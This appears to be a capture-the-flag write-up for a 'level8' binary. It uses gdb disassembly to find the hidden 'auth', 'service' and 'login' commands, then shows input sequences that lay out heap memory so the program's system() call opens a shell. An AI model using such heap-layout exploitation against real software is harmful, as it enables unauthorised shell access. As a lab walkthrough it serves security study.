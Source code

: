## level8
In `level8` as opposed to the others the call to `system()` is inside the `main()` function, running the program will make it print *nil nil* and when we try to disassembly the program the disassembled code it's huge comparing to the others, so going through it with __gdb__ will show  some texts that we could think to be the inputs to pass to this program<br>
```
0x080485c1 <+93>:	mov    eax,0x8048819
(gdb) x/s 0x8048819
0x8048819:	 "auth "
```
Righ after this I was faced with some *assembly code* that looks very weird to me *(probably because I don't speack it very well)*
```
0x080485cf <+107>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
0x080485d1 <+109>:	seta   dl
0x080485d4 <+112>:	setb   al
```
After some search  I could find this [SO-POST](https://stackoverflow.com/questions/44630262/what-do-the-assembly-instructions-seta-and-setb-do-after-repz-cmpsb/44630741) that could clarify some parts and made me understand that it was comparing a string character by charater,<br> *why bother? why not just call `strcmp`?* maybe to try to make it more complicated ? and there are also a bunch of *flags* being set in this way of doing the comparasion.<br> The next string we will find in the dissableded code:
```
=> 0x08048642 <+222>:	lea    eax,[esp+0x20]
   0x08048646 <+226>:	mov    edx,eax
   0x08048648 <+228>:	mov    eax,0x804881f
   0x0804864d <+233>:	mov    ecx,0x5
   0x08048652 <+238>:	mov    esi,edx
   0x08048654 <+240>:	mov    edi,eax
   0x08048656 <+242>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x08048658 <+244>:	seta   dl
   0x0804865b <+247>:	setb   al
   
(gdb) x/s 0x804881f
0x804881f:	 "reset"
```
And the next
```
   0x0804867e <+282>:	mov    eax,0x8048825
   0x08048683 <+287>:	mov    ecx,0x6
   0x08048688 <+292>:	mov    esi,edx
   0x0804868a <+294>:	mov    edi,eax
   0x0804868c <+296>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x0804868e <+298>:	seta   dl
   0x08048691 <+301>:	setb   al
   
(gdb) x/s 0x8048825
0x8048825:	 "service"
```
And the last one
```
   0x080486bb <+343>:	mov    eax,0x804882d
   0x080486c0 <+348>:	mov    ecx,0x5
   0x080486c5 <+353>:	mov    esi,edx
   0x080486c7 <+355>:	mov    edi,eax
   0x080486c9 <+357>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080486cb <+359>:	seta   dl
   0x080486ce <+362>:	setb   al
   
(gdb) x/s 0x804882d
0x804882d:	 "login"
```
To get the flag in this level you have to login as ``` `auth ` ``` the `' '` at the end of `auth` is important after this you will see the start __address__ where the string *`auth `* is put
```
./level8
(nil), (nil)
auth
0x804a008, (nil)
```
After this we have two options, we can either enter *service plus any number greater than 15 (memory alignment)
```
service AAAAAAAAAAAAAAA OR service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018
login
$
``` 
or we can enter
```
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$
```
At the beginig of the program we can see a call to `malloc()` and the __address__:
```
 0x080485eb <+135>:	call   0x8048470 <malloc@plt>
 0x080485f0 <+140>:	mov    ds:0x8049aac,eax
```
This __address__ `0x8049aac` will be shared by *`auth `* and *`service`* then at the end of the program just before the `system()` call we will see this __address__ again
```
=> 0x080486e2 <+382>:	mov    eax,ds:0x8049aac
   0x080486e7 <+387>:	mov    eax,DWORD PTR [eax+0x20]
   0x080486ea <+390>:	test   eax,eax
   0x080486ec <+392>:	je     0x80486ff <main+411>
   0x080486ee <+394>:	mov    DWORD PTR [esp],0x8048833
   0x080486f5 <+401>:	call   0x8048480 <system@plt>
```
and if we check this address we will recognize it from the command line:
```
(gdb) x/4xw 0x8049aac
0x8049aac <auth>:	0x0804a008	0x0804a028	0x00000000	0x00000000
```
We can see that is this address that we are writing to when we enter ``` `auth ` ``` and `service` as the arguments to the program, we can see from the snippet above that the prgram is loading this __address__ to the register `eax` and then adding `0x20` to it:
|Address| | |
|-------|----|-----|
|0x8049aac| =| 0x0804a008|
|0x0804a008|+| 0x20|
|0x0804a028 |
